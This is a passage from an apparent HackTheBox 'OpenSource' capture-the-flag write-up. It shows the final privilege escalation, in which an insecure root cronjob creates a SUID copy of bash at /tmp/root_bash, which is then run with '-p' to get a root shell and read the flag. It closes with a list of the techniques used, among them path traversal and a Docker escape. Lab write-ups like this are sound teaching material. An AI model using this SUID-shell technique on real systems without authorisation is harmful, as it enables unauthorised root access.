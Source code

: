 **This Bash script will copy `/bin/bash` into `/tmp/` and called `root_bash`, then add SUID sticky bit into it.**

- Wait for the cronjob runs:

**Verify the exploit works:**
```
-bash-4.4$ ls -lah /tmp
[...]
-rwsr-sr-x  1 root  root  1.1M Sep 17 12:53 root_bash
```

Yes it works!! **Let's spawn a bash shell with SUID privilege!**

```
-bash-4.4$ /tmp/root_bash -p
root_bash-4.4# whoami;hostname;id;ip a
root
opensource
uid=1000(dev01) gid=1000(dev01) euid=0(root) egid=0(root) groups=0(root),1000(dev01)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:49:2e brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.164/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:e6:59:a0:70 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
```

I'm root! :D

# Rooted

**root.txt:**
```
root_bash-4.4# cat /root/root.txt
{Redacted}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/OpenSource/images/a21.png)

# Conclusion

What we've learned:

1. Directory Enumeration
2. Source Code Review
3. Path Traversal
4. Remotely Modifying Flask Python File via Path Traversal
5. Dynamic Port Forwarding
6. Docker Escape via Private SSH Key On Gitea's Repository
7. Privilege Escalation via Insecure Cronjob